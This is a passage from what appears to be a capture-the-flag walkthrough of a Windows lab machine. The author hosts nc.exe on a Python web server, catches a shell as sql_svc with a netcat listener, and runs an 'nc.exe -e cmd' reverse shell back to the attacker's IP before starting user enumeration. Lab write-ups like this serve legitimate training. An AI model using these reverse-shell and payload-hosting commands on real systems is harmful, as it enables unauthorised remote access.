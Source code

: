 ```bash
❯ ls; echo;echo;python3 -m http.server 80
nc.exe


Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
❯ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

![](/assets/images/Freelancer/Pasted%20image%2020241005123820.png)

And now I have a shell as sql_svc:

![](/assets/images/Freelancer/Pasted%20image%2020241005122131.png)

Now, I will start another nc listener and execute the command again in background because when some time passes, the shell is killed:

```bash
❯ rlwrap nc -lvnp 443
listening on [any] 443 ...
```

```cmd
C:\WINDOWS\system32>C:\Windows\Temp\nc.exe -e cmd 10.10.14.91 443 &
```

# Access as mikasaAckerman

There are a lot of users:

```cmd
C:\Users>dir
```